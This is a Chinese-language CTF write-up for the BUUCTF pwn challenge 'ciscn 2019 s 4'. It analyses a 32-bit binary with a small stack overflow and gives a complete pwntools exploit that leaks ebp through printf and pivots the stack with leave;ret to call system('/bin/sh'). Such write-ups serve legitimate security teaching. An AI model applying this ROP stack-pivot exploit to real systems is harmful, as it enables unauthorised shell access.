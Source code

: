 ```yaml
---
author: 
  name: Zephyr
title: ciscn 2019 s 4
date: 2022-4-7 15:49:03
permalink: /pages/2e1547494524d1ae
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# ciscn 2019 s 4

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/ciscn_2019_s_4/ciscn_s_4'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  init();
  puts("Welcome, my friend. What's your name?");
  vul();
  return 0;
}
```

vul函数如下：

```c
int vul()
{
  char s; // [esp+0h] [ebp-28h]

  memset(&s, 0, 0x20u);
  read(0, &s, 0x30u);
  printf("Hello, %s\n", &s);
  read(0, &s, 0x30u);
  return printf("Hello, %s\n", &s);
}
```

hack函数如下：

```c
int hack()
{
  return system("echo flag");
}
```

Gadget：

```shell
ROPgadget --binary ciscn_s_4 --only "leave|ret"
Gadgets information
============================================================
0x080484b8 : leave ; ret
0x080483a6 : ret
0x080484ce : ret 0xeac1

Unique gadgets found: 3
```



## 思路分析

1. 目前信息：

   - vul函数可溢出，但只能溢出2个栈帧,载荷不够
   - plt表内有system，无/bin/sh字符串
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 2次read，第1次可以通过printf泄漏ebp地址，减去偏移后可计算出buf地址，第二次采用栈迁移解法，将/bin/sh写入buf处即可

## exp

```python
from pwn import *
context.terminal = ['tmux', 'splitw', '-h']
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_s_4/ciscn_s_4'
io = remote('node4.buuoj.cn', 27018)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 0x28
offset = 0x38
payload = flat(['a'*(padding-1), 'b'])
io.sendafter('your name?\n', payload)
io.recvuntil('b')
leak_ebp_addr = u32(io.recv(4))
buf_addr = leak_ebp_addr-offset
success('buf_addr :'+hex(buf_addr))
system_addr = elf.plt['system']
leave_ret_addr = 0x080484b8
payload = flat([buf_addr+0x100, system_addr,0xdeadbeef, buf_addr+16, '/bin/sh\x00'])
payload = payload.ljust(padding, b'\x00')
payload += flat([buf_addr, leave_ret_addr])
io.send(payload)
io.interactive()
```

